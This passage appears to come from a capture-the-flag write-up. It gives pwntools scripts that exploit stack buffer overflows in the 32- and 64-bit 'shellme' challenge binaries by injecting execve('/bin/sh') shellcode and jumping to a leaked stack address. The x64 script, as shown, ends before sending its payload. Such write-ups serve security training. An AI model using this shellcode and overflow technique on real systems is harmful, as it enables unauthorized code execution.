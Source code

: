 ```python
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
len_shell_code = 28

from pwn import *
# context.log_level = 'debug'
p = process("./shellme32")

offset = 40


p.recvuntil('?\n')
addr = int(p.recvline().strip(), 16)
p.recvuntil('> ')

log.info('Stack Address: ' + str(hex(addr)))

payload = shellcode
payload += "A"*(offset - len_shell_code)

payload += p32(addr)

print(len(shellcode))
p.sendline(payload)

with open('payload', 'wb') as f:
    f.write(payload)

p.interactive()
```

---

## shellme64 - 480 pts

This is similar to the shellme32 challenge. We just replace the shellcode with a x64 shellcode. And  replace `p32` with `p64` when adding the stack address to the payload.

We use [exploit-db](https://www.exploit-db.com/exploits/42179) to get the shellcode. The offset of the crash is same as before.

```python
shellcode = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
len_shell_code = 24

from pwn import *
# context.log_level = 'debug'
p = process("./shellme64")

offset = 40


p.recvuntil('this\n')
addr = int(p.recvline().strip(), 16)
p.recvuntil('> ')

log.info('Stack Address: ' + str(hex(addr)))

payload = shellcode
payload += "A"*(offset - len(shellcode))

# with open('payload', 'wb') as f:
#     f.write(payload)
```